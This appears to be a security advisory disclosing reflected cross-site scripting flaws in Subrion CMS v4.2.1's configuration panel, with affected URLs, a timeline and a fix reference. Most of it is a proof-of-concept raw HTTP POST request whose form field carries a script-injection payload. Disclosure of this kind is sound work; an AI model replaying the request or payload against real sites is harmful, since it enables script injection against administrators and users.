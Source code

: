 
# Multilple Cross Site Scripting (XSS) vulnerability exists in Intelliants Subrion CMS v4.2.1 in the Configuration panel. 
# Description
Subrion CMS is easy to install and simple to manage. Use it as a stand-alone application or in conjunction with other applications to create entry level sites, mid-sized or large sites.

Multiple Reflected Cross-site Scripting vulnerabilities were discovered in the Subrion CMS v.4.2.1 configuration panel, allowing a remote attacker to inject arbitrary JavaScript. 

**Date**: 27-02-2022 \
**Software Link:** https://subrion.org \
**Exploit Author**: HaMM0nz \
**CVE**: CVE-2020-18325 \
**Category:** Web Application \
**Affected URL**
- /panel/configuration/pictures/
- /panel/configuration/mail/
- /panel/configuration/miscellaneous/
- /panel/menus/add/
# Proof of Concept 
POST /panel/configuration/pictures/ HTTP/1.1 \
Host: 172.16.63.129 \
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:56.0) Gecko/20100101 Firefox/56.0 \
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 \
Accept-Language: en-US,en;q=0.5 \
Accept-Encoding: gzip, deflate \
Referer: http://172.16.63.129/panel/configuration/pictures/ \
Content-Type: multipart/form-data; boundary=---------------------------17647740521660843247800008623 \
Content-Length: 5605 \
Connection: close \
Cookie: INTELLI_7da515443a=2hen33trbsgsadue2rgcti4sr1; loader=loaded \
Upgrade-Insecure-Requests: 1 

-----------------------------17647740521660843247800008623 \
Content-Disposition: form-data; name="__st" 

t9eQz0wrvfrlVO1rNDO9ZbPOB3mDmkNw8k17yS6f \
-----------------------------17647740521660843247800008623 \
Content-Disposition: form-data; name="c[image_quality]" 

1 \
-----------------------------17647740521660843247800008623\
Content-Disposition: form-data; name="v[image_quality]" 

75 \
-----------------------------17647740521660843247800008623 \
Content-Disposition: form-data; name="c[allow_animated_gifs]" \
1 \
-----------------------------17647740521660843247800008623 \
Content-Disposition: form-data; name="v[allow_animated_gifs]" \
0 \
-----------------------------17647740521660843247800008623 \
Content-Disposition: form-data; name="v[allow_animated_gifs]" \
test"><script>alert(1)</script>1qazx 

# Timeline
**Discovery and report** : 24 June 2019 \
**CVE ID was assigned** : 11 Aug 2021 \
**Public** : 27 February 2022
# Solution
Consider complying to the OWASP's XSS prevention guidelines. (https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
